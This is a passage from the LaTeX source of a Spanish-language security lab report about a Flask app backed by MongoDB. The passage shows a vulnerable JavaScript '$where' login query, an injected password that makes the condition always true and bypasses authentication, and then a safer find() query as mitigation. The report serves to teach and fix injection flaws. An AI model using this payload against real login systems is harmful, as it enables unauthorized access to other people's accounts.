  
\includegraphics[scale=0.34]{images/mongo.png}\\
  \caption{Base de datos de Mongo: Base de datos de identidades, colecciones y contenido de la colección users.}
  \label{fig:mongo}
\end{figure}\\

Cuando se hace el login satisfactorio de un usuario en base de datos nos redirijirá a la página principal con un mensaje de bienvenida. En cambio, si no se introducen los credenciales de un usario correctamente obtendremos un error y nos deja en la misma página de login para volverlo a intentar.

\lstinputlisting[language=Python, caption={Bloque de código para loguear a un usuario}, firstline=39, lastline=55]{app_nosql.py}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.5]{images/ok_login.png}\\
  
\includegraphics[scale=0.5]{images/welcome.png}
  \caption{Login satisfactorio de un usuario}
  \label{fig:ok_login}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.5]{images/nok_login.png}\\
  
\includegraphics[scale=0.5]{images/no_welcome.png}
  \caption{Error de la aplicación cuando los datos introducidos no son correctos}
  \label{fig:login_error}
\end{figure}

\pagebreak

\item Dada la construcción del diccionario que representa la query a base de datos para loguear a un usuario, el parámetro de la contraseña permite una inyección NoSQL de tal forma que permite saltarse el proceso normal de login sin necesidad de conocer la contraseña.
\lstinputlisting[language=Python, caption={Query a base de datos}, firstline=40, lastline=46]{app_nosql.py}

Una query a base de datos con los credenciales de un usuario tendría esta forma:
\begin{lstlisting}[caption={Query de login}, language=Python]
db.users.find({
	'$where': "function() { 
		return this.name == 'Pablo' && this.password == 'mypass'
	}"
})
\end{lstlisting}

La query sencillamente comprueba que para el usuario y contraseña introducidos hay un registro que cumpla esos requisitos. Podemos aprovechar el campo de la contraseña para hacer que la condición siempre se cumpla y, por tanto, obtener acceso a la página independientemente de los datos introducidos en la contraseña. Por ejemplo, esta condición será cierta para todos los registros en base de datos:
\begin{lstlisting}[caption={Query vulnerable}, label={lst:inyeccion}, language=Python]
db.users.find({
	'$where': "function() { 
		return this.name == 'Pablo' && this.password == '' || '1' == '1' 
	}"
})
\end{lstlisting}

$'1' == '1'$ es siempre cierto y junto con el operador OR con que uno de los lados de la condición sea cierto obtendremos acceso a la aplicación.\\

Para poder conseguir esa misma query, tenemos que introducir el siguiente password:

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.5]{images/inyeccion.png}\\
  \vspace{1cm}
  
\includegraphics[scale=0.5]{images/welcome.png}
  \caption{Bypass del sistema con una inyección}
  \label{fig:login_error2}
\end{figure}

Esto es así porque hay que cerrar el string que corresponde a la comparación con ``this.password'' y crear la nueva condición. Arrastramos el segundo apóstrofe e inyectamos la OR y de esta forma se construye la condición [Ver \ref{lst:inyeccion}].

\item Para mitigar el problema de la inyección se puede utilizar el parámetro de proyección de la función find() para seleccionar el documento de usuario que necesitamos.
\begin{lstlisting}[caption={Query segura de búsqueda de documento en Mongo}, language=Python]
mongo.db.users.find({'name': 'Pablo', 'password': 'mypass'})
\end{lstlisting}

\lstinputlisting[
	language=Python,
	caption={Modificaciones efectuadas para securizar MongoDB: Guardamos los parámetros del formulario en una variable y la usamos para el parámetro de find()},
	firstline=31,
	lastline=48
]{app_nosql_secure.py}

Una vez realizados estos cambios tenemos el mismo resultado de acceso correcto e incorrecto y ya no es vulnerable ya que nuestra nueva query a base de datos con la inyección propuesta será:
\begin{lstlisting}[language=Python, caption=Query a base de datos con parámetros de inyección]
mongo.db.users.find({'name': 'Pablo', 'password': "' || '1' == '1"})
\end{lstlisting}
\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.3]{images/securenosql1.png}\\
  \vspace{1cm}
  
\includegraphics[scale=0.3]{images/securenosql2.png}
  \caption{Acceso permitido con nueva query}
  \label{fig:secure_nosql}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.3]{images/securenosql3.png}\\
  \vspace{1cm}
  
\includegraphics[scale=0.3]{images/securenosql4.png}
  \caption{Acceso restringido con nueva query}
  \label{fig:secure_nosql2}
\end{figure}
\end{enumerate}

\newpage
\appendix
\section{Anexo}
\subsection{Aplicación con MySQL}
\label{ann:app_mysql.py}
\lstinputlisting[language=Python, caption={Aplicación con conexión a MySQL}]{app_mysql.py}

\subsection{Aplicación con NoSQL}
\label{ann:app_nosql.py}
\lstinputlisting[language=Python, caption={Aplicación con conexión a MongoDB}]{app_nosql.py}

\UseRawInputEncoding
\subsection{schema.sql}
\label{ann:schema.sql}
\lstinputlisting[language=SQL, caption={Base de datos}]{schema.sql}

\subsection{Templates}

\subsubsection{index.html}
\lstinputlisting[language=Python, caption={Vista de inicio}]{templates/index.html}

\subsubsection{news.html}
\lstinputlisting[language=HTML, caption={Vista detalle de artículos}]{templates/news.html}

\subsubsection{form.html}
\lstinputlisting[language=HTML, caption={Formulario de login y registro}]{templates/form.html}

\subsection{Templates - Modificaciones para NoSQL}
\label{ann:nosql_mods}
\subsubsection{index.html}
\lstinputlisting[
	language=Python,
	caption={Vista de inicio modificada para Mongo},
	firstline=59, lastline=63
]{templates/nosql/index.html}

\subsubsection{news.html}
\lstinputlisting[
	language=HTML,
	caption={Vista detalle de artículos modificada para Mongo},
	firstline=51,
	lastline=55
]{templates/nosql/news.html}

\newpage
\begin{thebibliography}{9}
   
\bibitem{information_schema}
	\textbf{INFORMATION\_SCHEMA Tables / Introduction}\\
	MySQL 8.0 Reference Manual\\
	\url{https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html}

\bibitem{flask}
  \textbf{Flask}\\
  \url{https://flask.palletsprojects.com/en/1.1.x/}
 
\bibitem{mysql}
	\textbf{MySQL is a widely used, open-source relational database management system (RDBMS).}\\
	Docker Official Images\\
	\url{https://hub.docker.com/_/mysql}
	
\bibitem{bootstrap}
	\textbf{Bootstrap}\\
	\url{https://getbootstrap.com/}
	
\bibitem{w3schools}
  \textbf{''SQL Stored Procedures for SQL Server''}, \\
  w3schools.com.\\
  \url{https://www.w3schools.com/sql/sql_stored_procedures.asp}
 
\bibitem{owasp}
	\textbf{Blind SQL Injection}\\
	OWASP\\
	\url{https://owasp.org/www-community/attacks/Blind_SQL_Injection}

\bibitem{dual}
	\textbf{SQL DUAL table}\\
	w3resource\\
	\url{https://www.w3resource.com/sql/sql-dual-table.php}

\bibitem{like}
	\textbf{SQL LIKE Operator}\\
	w3schools.com\\
	\url{https://www.w3schools.com/sql/sql_like.asp}

\bibitem{sqlmap}
	\textbf{sqlmap}\\
	\url{http://sqlmap.org/}

\bibitem{orm}
	\textbf{Object-Relational Mapping Revisited - A Quantitative Study on the Impact of Database Technology on O/R Mapping Strategies}\\
	Semantic Scholar\\
	\url{https://www.semanticscholar.org/paper/Object-Relational-Mapping-Revisited-A-Quantitative-Lorenz-Rudolph/708ac5e798b7e45b949d42e2f872549a3612e1e2}
	
\bibitem{mongo}
	\textbf{MongoDB document databases provide high availability and easy scalability.}\\
	Docker Official Images\\
	\url{https://hub.docker.com/_/mongo}
  
\bibitem{mongo_search}
  \textbf{''db.collection.find()''}\\
  MongoDB Documentation.\\
  \url{https://docs.mongodb.com/manual/reference/method/db.collection.find/}


\end{thebibliography}

\end{document}